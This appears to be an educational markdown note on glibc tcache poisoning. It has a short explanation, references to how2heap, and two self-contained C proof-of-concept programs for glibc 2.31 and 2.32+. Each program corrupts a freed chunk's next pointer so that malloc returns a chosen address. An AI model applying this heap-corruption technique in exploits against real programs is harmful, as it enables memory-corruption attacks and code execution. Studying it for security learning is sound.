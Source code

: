 <details>
<summary><strong>Description</strong></summary>
<p>

the tcache works as a linked list, and relies on the next pointers. When a chunk from the tcache gets allocated, it allocates the head of an individual tcache linked list, and its next ptr becomes the head...

this attack relies on altering the next ptr of a tcache chunk. After we have altered the next ptr of a tcache chunk, and allocate the altered chunk, the next allocation should give us a memory chunk at an address of our choosing...

</p>
</details>

<details>
<summary><strong>Ref</strong></summary>
<p>

- https://github.com/guyinatuxedo/Shogun/blob/main/pwn_demos/tcache/tcache_linked_list/readme.md
- https://github.com/shellphish/how2heap/blob/master/glibc_2.39/tcache_poisoning.c
- https://github.com/shellphish/how2heap/blob/master/glibc_2.31/tcache_poisoning.c

</p>
</details>

### For `2.32+` versions

<details>
<summary><strong>POC</strong></summary>
<p>

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long x[0x10], *target, *chunk0, *chunk1, *chunk2;

    // target must be aligned 0x10
    for(int i = 0; i < 0x10; i++) {
        if((((long)&x[i]) & 0xF) == 0) {
            target = &x[i];
            break;
        }
    }

    printf("target: %p\n", target);

    chunk0 = malloc(0x18);
    chunk1 = malloc(0x18); // two chunks must be the same size, or else they will go to different tcache

    free(chunk0);
    free(chunk1); 
    // [tcache 0x20]: chunk1 -> chunk0

    // VULNERABILITY
    chunk1[0] = (long)target ^ ((long)chunk1 >> 12); // ptr mangled since glibc 2.32
    // VULNERABILITY
    // [tcache 0x20]: chunk1 -> target
    
    malloc(0x18); // padding
    // [tcache 0x20]: target

    chunk2 = malloc(0x18);
    // [tcache 0x20]: (empty)

    printf("chunk2: %p\n", chunk2);
}
```

</p>
</details>

### For `2.31` version

<details>
<summary><strong>POC</strong></summary>
<p>

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long x[0x10], *target, *chunk0, *chunk1, *chunk2;

    // target doesnt need to aligned 0x10 in 2.31
    target = (char *)(&x[2]) - 2;

    printf("target: %p\n", target);

    chunk0 = malloc(0x18);
    chunk1 = malloc(0x18); // two chunks must be the same size, or else they will go to different tcache

    free(chunk0);
    free(chunk1); 
    // [tcache 0x20]: chunk1 -> chunk0

    // VULNERABILITY
    chunk1[0] = (long)target; // no mangled pointer in glibc 2.31
    // VULNERABILITY
    // [tcache 0x20]: chunk1 -> target
    
    malloc(0x18); // padding
    // [tcache 0x20]: target

    chunk2 = malloc(0x18);
    // [tcache 0x20]: (empty)

    printf("chunk2: %p\n", chunk2);
}
```

</p>
</details>
